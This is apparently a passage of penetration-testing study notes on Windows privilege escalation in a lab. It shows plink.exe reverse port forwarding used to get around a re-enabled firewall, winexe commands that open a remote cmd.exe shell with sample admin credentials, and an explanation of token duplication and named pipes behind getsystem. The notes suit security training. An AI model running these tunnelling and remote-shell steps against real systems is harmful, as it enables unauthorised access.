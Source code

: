 Note that the \<target-IP\> is usually local (e.g. 127.0.0.1).

plink.exe requires you to SSH to Kali, and then uses the SSH tunnel to forward ports.

### Privilege Escalation
1. First, test that we can still login remotely via winexe:
```
winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```
2. Using an administrator command prompt, re-enable the firewall:
```
netsh advfirewall set allprofiles state on
```
3. Confirm that the winexe command now fails.
4. Copy the plink.exe file across to Windows, and then kill the SMB Server on Kali (if you are using it).
5. Make sure that the SSH server on Kali is running and accepting root logins. Check that the “PermitRootLogin yes” option is uncommented in /etc/ssh/sshd_config. Restart the SSH service if necessary.
6. On Windows, use plink.exe to forward port 445 on Kali to the Windows port 445:
```
plink.exe root@192.168.1.11 -R 445:127.0.0.1:445
```
7. On Kali, modify the winexe command to point to localhost (or 127.0.0.1) instead, and execute it to get a shell via the port forward:
```
winexe -U 'admin%password123' //localhost cmd.exe
```

# getsystem (Named Pipes & Token Duplication)
Access Tokens are special objects in Windows which store a user’s identity and privileges.

Primary Access Token – Created when the user logs in, bound to the current user session. When a user starts a new process, their primary access token is copied and attached to the new process.

Impersonation Access Token – Created when a process or thread needs to temporarily run with the security context of another user.

## Token Duplication
Windows allows processes/threads to duplicate their access tokens.

An impersonation access token can be duplicated into a primary access token this way.

If we can inject into a process, we can use this functionality to duplicate the access token of the process, and spawn a separate process with the same privileges.

## Named Pipes
You may be already familiar with the concept of a “pipe” in Windows & Linux:
```
systeminfo | findstr Windows
```
A named pipe is an extension of this concept.
A process can create a named pipe, and other processes can open the named pipe to read or write data from/to it.
The process which created the named pipe can impersonate the security context of a process which connects to the named pipe.

